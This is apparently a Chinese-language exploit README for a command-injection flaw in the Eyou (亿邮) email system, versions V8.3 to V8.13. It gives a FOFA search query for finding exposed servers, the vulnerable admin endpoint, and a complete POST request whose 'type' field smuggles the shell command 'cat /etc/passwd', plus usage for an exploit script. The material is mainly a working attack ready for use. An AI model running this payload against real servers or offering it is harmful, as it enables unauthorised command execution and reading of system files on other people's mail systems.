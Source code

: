 # 影响范围：
亿邮电子邮件系统V8.3-V8.13
# FOFa dork：
body="亿邮电子邮件系统"
# 漏洞复现：
登录页面：
![image](images/login.png)  
漏洞地址：/webadm/?q=moni_detail.do&action=gragh  
post包如下：  
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0

type='|cat /etc/passwd||'
```
![image](images/post.png)  
脚本使用方法：  
python3 Eyou.py [-h] [-u] [-f]





